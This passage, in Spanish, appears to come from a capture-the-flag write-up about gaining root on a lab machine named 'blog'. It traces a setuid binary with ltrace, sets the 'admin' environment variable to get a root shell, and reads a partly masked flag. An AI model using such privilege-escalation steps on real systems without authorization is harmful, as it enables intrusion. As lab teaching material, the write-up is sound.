Procedemos a ejecutar "`ltrace`", que es una utilidad que permite rastrear las llamadas a funciones de bibliotecas que realiza un proceso.

```bash
www-data@blog:/home/bjoel$ ltrace /usr/sbin/checker
ltrace /usr/sbin/checker
getenv("admin")                                  = nil
puts("Not an Admin"Not an Admin
)                             = 13
+++ exited (status 0) +++
```

Del resultado podemos afirmar que el programa `checker` llama a la función `getenv` para obtener el valor de la variable de entorno `admin`, pero esta variable no está definida. Luego, el programa llama a la función `puts` para imprimir el mensaje “Not an Admin” en la salida estándar.

Parece que el programa está comprobando si se define la variable de entorno `admin` para determinar si somos administradores. 

Por lo tanto, procedimos a exportar la variable de entorno `admin` y ejecutamos nuevamente el programa.

```bash
www-data@blog:/home/bjoel$ export admin=pwnd
export admin=pwnd
www-data@blog:/home/bjoel$ /usr/sbin/checker
/usr/sbin/checker
root@blog:/home/bjoel# whoami
whoami
root
```

Después de ejecutar el programa, obtenemos una shell como usuario root. Finalmente, accedemos al directorio `/root` y leemos la última flag.

```bash
root@blog:/home/bjoel# cd /root
cd /root
root@blog:/root# ls
ls
root.txt
root@blog:/root# cat root.txt
cat root.txt
9a0b2b618bef9bfa****************
```

!Happy Hacking¡

